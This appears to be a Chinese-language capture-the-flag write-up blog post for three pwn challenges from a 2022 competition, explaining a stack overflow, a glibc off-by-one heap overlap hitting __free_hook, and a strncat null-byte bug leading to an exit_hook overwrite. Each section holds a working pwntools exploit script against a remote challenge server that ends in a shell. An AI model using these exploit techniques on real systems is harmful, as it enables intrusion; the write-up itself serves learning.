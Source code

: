 ```yaml
---
layout: article
pageview: true
key: 2022-01-09-changanzhanyi
title: 长安战疫Pwn题WP
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```



<!--more-->

## pwn1

一道裸的32位栈溢出，自带后门函数，还附送了栈地址，需要注意的是`main`函数结束时的汇编指令为`leave;mov esp, [ecx-4];ret`而非正常的`leave;ret`，需要根据`mov ecx, [ebp-4]`调整栈帧。

```python
from pwn import *
context(arch='i386',log_level='debug')
# p=process('./pwn1')
# gdb.attach(p,'b read')
p=remote('113.201.14.253',16088)

leave_ret=0x0804853e
system=0x080483ed

p.recvuntil('Gift:')
gift=int(p.recvn(10),16)
log.info(hex(gift))

pay=p32(0x08048540)*12+p32(gift+4)*4

p.send(pay)
p.interactive()

#flag{474b7f9219effe69530da4ad63c1752a}
```

## pwn2

2.27版本的`off by one`，show功能中还没有限制index下限，可以直接泄露libc地址，构造`overlap`修改fd打`__free_hook`即可。

```python
from pwn import *
context(arch='amd64',log_level='debug')

local=0

p=process('./pwn2')

if local!=1:
    p=remote('113.201.14.253',16066)

elf=ELF('./pwn2')
libc=ELF('./libc-2.27.so')

def choose(idx):
    p.sendlineafter('Choice: ',str(idx))

def add(size,con):
    choose(1)
    p.sendlineafter('size: ',str(size))
    p.sendlineafter('content: ',con)

def edit(idx,con):
    choose(2)
    p.sendlineafter('idx: ',str(idx))
    p.sendafter('content: ',con)

def free(idx):
    choose(3)
    p.sendlineafter('idx: ',str(idx))

def show(idx):
    choose(4)
    p.sendlineafter('idx: ',str(idx))

show(-33)
stdout=u64(p.recvn(6)+b'\0'*2)
log.success(hex(stdout))
# gdb.attach(p)
libc_base=stdout-libc.sym['_IO_2_1_stdout_']
log.success(hex(libc_base))

free_hook=libc_base+libc.sym['__free_hook']
log.success(hex(free_hook))

add(0x68,'a'*0x68)
add(0x68,'b'*0x68)
add(0x68,'c'*0x68)
add(0x68,'d'*0x68)
add(0x20,'/bin/sh\x00'*0x4)

free(0)

add(0x68,'a'*0x68+'\xf0')
# gdb.attach(p)
free(3)

free(1)

free(2)

add(0xe8,b'b'*0x68+p64(0x71)+p64(free_hook))

add(0x68,p64(libc_base+libc.sym['system']))
add(0x68,p64(libc_base+libc.sym['system']))
free(4)

# gdb.attach(p)
p.interactive()
#flag{33cb931de8350b94d949efa8220d5433}
```

## pwn3

关键函数`strncat`会在追加时补上一个`\x00`，这样我们在`creat`时输入长度为a的字符串，`levelup`时输入长度为b的字符串，使`a+b=0x24`，就可以覆盖原本记录`level`的位置为`\x00`，使最终计算后的`level`为b，我们第二次`levelup`时再输入长度为c的字符串,就会覆盖`level`为我们的字符串，计算`level`时就会提取`DWORD`类型的变量出来，是`level`值巨大，就可以秒杀boss赢得游戏，进入后门代码。

后门代码为一个任意地址写，我们修改`exit_hook`为`one_gadget`即可。

```python
from pwn import *
context(arch='amd64')
# context.log_level='debug'
p=process('./Gpwn3')
elf=ELF('./Gpwn3')
libc=ELF('./libc-2.23.so')
p=remote('113.201.14.253',16033)


def creat(con):
    p.sendlineafter('choice:','1')
    p.sendlineafter('level :',con)
    sleep(0.1)

def lvlup(con):
    p.sendlineafter('choice:','2')
    p.sendafter('level :',con)
    sleep(0.1)


creat('a'*0x10)
lvlup('\xff'*0x14)
lvlup('\xff'*0x10)

p.sendlineafter('choice:','3')
p.recvuntil('Here\'s your reward: ')

puts=int(p.recvn(14),16)
log.success(hex(puts))
libc_base=puts-libc.sym['puts']
log.success(hex(libc_base))
exit_hook = libc_base+0x5f0040+3848
log.success(hex(exit_hook))

p.send(p64(exit_hook))
ogg=[283174,283258,840051,840264,983972,983984,987719,1009648]
p.send(p64(ogg[6]+libc_base))
# gdb.attach(p)

p.interactive()

#flag{3901afdc7f79dedfdb062a241eb3a575}
```